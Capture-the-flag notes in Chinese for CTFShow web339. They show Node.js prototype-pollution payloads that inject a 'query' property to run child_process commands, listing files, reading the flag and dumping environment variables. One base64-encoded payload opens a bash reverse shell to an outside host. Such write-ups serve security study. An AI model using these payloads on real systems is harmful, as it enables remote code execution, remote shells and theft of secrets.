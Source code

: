 CTF/WP/CTFShow/web339

- # 施工中
	- ```js
	  require("child_process").spawnSync(
	    'ls'
	  ).stdout.toString()
	  
	  ```
	- ```js
	  return global.process.mainModule.constructor._load('child_process').spawnSync(
	    'ls'
	  ).stdout.toString()
	  ```
	- ```json
	  {"__proto__":{"query":"try {return require('child_process').exec(atob('YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC9jYS5yYXl3aGF0Lnh5ei8zMDAxIDA+JjEi'))}catch(e){}"}}
	  ```
	- ```js
	  return (() =>{try {return global.process.mainModule.constructor._load('child_process').execSync(atob('Y2F0IC9mKg==')).toString();}catch(e){return e;}})();
	  ```
- # 最终Payload
	- id:: 630b629d-0265-452f-9683-824e175ef101
	  ```json
	  {"__proto__":{"query":"return (() =>{try {return global.process.mainModule.constructor._load('child_process').execSync('echo $(ls .) $(env)').toString();}catch(e){return e;}})();"}}
	  ```
- # 解法
	- 本题可以通过`/login`界面污染`query`参数，然后通过`/api`界面利用`query`参数执行任意参数。
	- 首先在`/login`界面交上如上Payload
		- {{embed ((630b629d-0265-452f-9683-824e175ef101))}}
	- 然后在`/api`界面执行。
	- ^^Payload最好别包含换行和多余的空格^^